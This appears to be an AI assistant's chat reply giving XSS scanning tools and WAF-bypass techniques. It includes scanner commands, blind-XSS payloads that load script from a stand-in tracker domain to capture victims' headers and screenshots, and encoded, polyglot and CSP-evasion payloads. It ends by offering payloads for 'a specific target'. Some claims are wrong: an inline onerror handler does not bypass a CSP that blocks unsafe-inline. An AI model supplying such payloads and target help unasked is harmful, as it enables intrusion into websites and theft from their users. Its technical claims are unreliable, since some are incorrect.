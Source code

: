 Here are some solid **automation tools and WAF bypass techniques** to step up your XSS game! 🚀

---

## **🔧 Automation Tools for XSS**

### 1️⃣ **Dalfox** – Fast XSS Scanner

✅ **Why?** More advanced than basic fuzzers, handles modern web apps well.  
🔗 **GitHub**: [https://github.com/hahwul/dalfox](https://github.com/hahwul/dalfox)  
📌 Usage:

```bash
dalfox url "https://example.com/search?q=" --blind "https://your-xss-tracker.com"
```

💡 **Tip:** Use the **--waf-bypass** flag to test for WAF-protected inputs.

---

### 2️⃣ **XSStrike** – Intelligent XSS Detection

✅ **Why?** It analyzes the input field and generates optimized payloads.  
🔗 **GitHub**: [https://github.com/s0md3v/XSStrike](https://github.com/s0md3v/XSStrike)  
📌 Usage:

```bash
python3 xsstrike.py -u "https://example.com/vuln.php?input="
```

💡 **Tip:** Use **-t** for threading and **--fuzzer** for dynamic payload discovery.

---

### 3️⃣ **XSS Hunter** – Stored XSS Detection

✅ **Why?** Helps track stored XSS execution even when triggered days later.  
🔗 **Website**: [https://xsshunter.com/](https://xsshunter.com/)  
📌 **How to use it?**

- Sign up, get a unique tracking domain.
- Inject your XSS payload with `<script src="https://your-unique-domain.xss.ht"></script>`
- If executed, you'll see **screenshots, headers, and execution context** in the dashboard.

💡 **Tip:** Great for **multi-stage** payloads that trigger after an admin logs in.

---

## **🛡️ WAF Bypass Techniques**

### 1️⃣ **Case Manipulation & Encoding Tricks**

WAFs often block common XSS payloads, but they may fail on:  
✅ **Upper/Lowercase Variations:**

```html
<SCRipt>alert(1)</sCRipt>
```

✅ **Hex/Unicode Encoding:**

```html
%3Cscript%3Ealert(1)%3C/script%3E
```

✅ **JavaScript Protocol Encoding:**

```html
<a href="jAvAsCrIpT:alert(1)">Click me</a>
```

---

### 2️⃣ **Polyglot Payloads (Universal Bypasses)**

These payloads execute in multiple contexts and evade filters. Example:

```html
"><svg onload=confirm(1)>  
```

✅ Works in **HTML, JS, and SVG** contexts!  
✅ Short enough to bypass length-based WAF filters.

---

### 3️⃣ **Bypassing Content Security Policy (CSP)**

If CSP is blocking inline scripts, try:  
✅ **Dynamic JavaScript Execution:**

```html
<img src=x onerror=eval(atob('YWxlcnQoMSk='))>
```

- **atob()** decodes Base64 to avoid detection.
- Bypasses CSP if `unsafe-inline` is blocked.

---

### 4️⃣ **DOM-Based XSS & JavaScript Prototype Pollution**

Some WAFs only filter **reflected XSS**, missing DOM-based attacks:  
✅ **Override JavaScript Properties:**

```html
https://victim.com/#constructor.constructor=alert(1)//
```

- If the page uses `location.hash`, this **tricks JS into running alert(1)**.
- Often **not detected by WAFs** since it doesn’t rely on `<script>`.

---

### **🔥 Final Tips:**

✅ **Always test inside a real browser** – Some payloads fail due to security restrictions.  
✅ **Use mutation XSS payloads** – Some filters sanitize **basic** XSS but fail against **mutated inputs**.  
✅ **Try different HTTP methods** – `POST` requests may bypass XSS filters applied only to `GET` requests.

---

This should help you **automate, bypass WAFs, and find high-impact XSS bugs!** 🚀💥  
Let me know if you need payload variations or a specific approach for a target!
